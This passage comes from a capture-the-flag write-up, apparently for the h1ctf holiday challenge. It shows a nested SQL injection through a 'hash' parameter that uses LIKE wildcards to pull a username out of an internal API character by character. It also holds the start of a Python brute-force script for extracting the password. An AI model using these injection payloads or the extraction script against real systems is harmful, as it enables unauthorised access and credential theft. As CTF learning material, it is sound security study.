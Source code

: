 From the api docs we can see: 
400 Invalid GET/POST variable
204 Successful request but with no data found

Again I was stuck no idea what to do

Another hint : "Wildcard"

You can visit this url for more info: https://www.w3schools.com/sql/sql_wildcards.asp
We can use %,_ to find the correct password and username combination.
I first used the _ to count the length of the username and password then with % extracted the chars one by one.


```
hash=-jdh34k' union select "1' union select 1,2,'../api/user?username=%&password='--+-",2,3--+-
Invalid content type detected

hash=-jdh34k' union select "1' union select 1,2,'../api/user?username=g%&password='--+-",2,3--+-
Invalid content type detected

hash=-jdh34k' union select "1' union select 1,2,'../api/user?username=a%&password='--+-",2,3--+-
Expected HTTP status 200, Received: 204

```

The username starts with "g", so it's probably grinch.

```
hash=-jdh34k' union select "1' union select 1,2,'../api/user?username=grinch%&password='--+-",2,3--+-
Invalid content type detected

hash=-jdh34k' union select "1' union select 1,2,'../api/user?username=grincha%&password='--+-",2,3--+-
Invalid content type detected

Let's check what the last charcater might be:
hash=-jdh34k' union select "1' union select 1,2,'../api/user?username=%n&password='--+-",2,3--+-
Invalid content type detected

grincha%n maybe it's admin??
hash=-jdh34k' union select "1' union select 1,2,'../api/user?username=grinchadmin&password='--+-",2,3--+-
Invalid content type detected

Username: grinchadmin

```

Moving on to the password parameter.


```python
import requests
from bs4 import BeautifulSoup
from sys import argv

script, length = argv
password = ""

passwords = ['a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', '1', '2', '3', '4', '5', '6','7','8','9','0','_']
for z in range(0,int(length)):
        for i in passwords:
                t  =  password + i
                r = requests.get("https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=123%27%20UNION%20ALL%20SELECT%20%221%27union%20select%201,2,%27../api/user?username=grinchadmin%26password={}%%27--+-%22,2,3--%20-".format(t))
```